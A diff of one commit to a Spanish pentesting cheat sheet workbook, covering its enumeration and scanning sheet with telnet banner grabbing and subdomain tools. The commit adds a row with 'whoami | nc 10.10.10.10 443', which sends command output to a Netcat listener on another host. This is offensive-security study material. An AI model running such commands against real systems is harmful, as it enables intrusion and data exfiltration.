

Before and after one commit to AmatheraeWorld/AmatheraeWorld, an Excel workbook: CheatSheet.xlsm, sheet Enumeracion & Escaneos, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no cell formats; removed rows and columns are numbered as before the commit, all else as after; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/CheatSheet.xlsm (sheet Enumeracion & Escaneos)
+++ b/CheatSheet.xlsm (sheet Enumeracion & Escaneos)
-J7: (empty)
+J7: whoami | nc 10.10.10.10 443
-K7: (empty)
+K7: Para mandar el comando a la escucha de nuestro Netcat y ver si tenemos conexion con la maquina, por si algo nos la capa
-J8: TELNET
+J8: (empty)
-J8:L8 merged
-J9: Comando
+J9: (empty)
-K9: Descripcion
+K9: (empty)
-L9: Anotaciones
+L9: (empty)
-J10: telnet 192.168.1.106 22
+J10: TELNET
+J10:L10 merged
-K10: Conectarnos a un puerto y BannerGrabing
+K10: (empty)
-J11: (empty)
+J11: Comando
-K11: (empty)
+K11: Descripcion
-L11: (empty)
+L11: Anotaciones
-J12: SUBDOMINIOS
+J12: telnet 192.168.1.106 22
-J12:L12 merged
-K12: (empty)
+K12: Conectarnos a un puerto y BannerGrabing
-J13: Comando
+J13: (empty)
-K13: Descripcion
+K13: (empty)
-L13: Anotaciones
+L13: (empty)
-J14: fierce -dns "dominio"
+J14: SUBDOMINIOS
+J14:L14 merged
-K14: Realiza pruebas a dns como transferencia de zona
+K14: (empty)
-L14: Saca subdominios
+L14: (empty)
-J15: dnsdumpster
+J15: Comando
-K15: Para analizar dominios y subdominios
+K15: Descripcion
-L15: (empty)
+L15: Anotaciones
-J16: knock
+J16: fierce -dns "dominio"
-K16: Analizar subdominios
+K16: Realiza pruebas a dns como transferencia de zona
-L16: (empty)
+L16: Saca subdominios
-J17: crt.sh
+J17: dnsdumpster
-K17: Para buscar subdominios en pruebas de Red Team de aplicaciones en pre produccion
+K17: Para analizar dominios y subdominios
-L17: Busca certificados reservados de aplicaciones que aun no han salido.
+L17: (empty)
```
Also changed, not shown: 9 added rows, 5 removed rows, 55 edited cells and merged cells elsewhere in this sheet, sheet Explotacion & Post-Explotacion, sheet General, sheet Interceptadores & Web, sheet Inyecciones, cell formats.
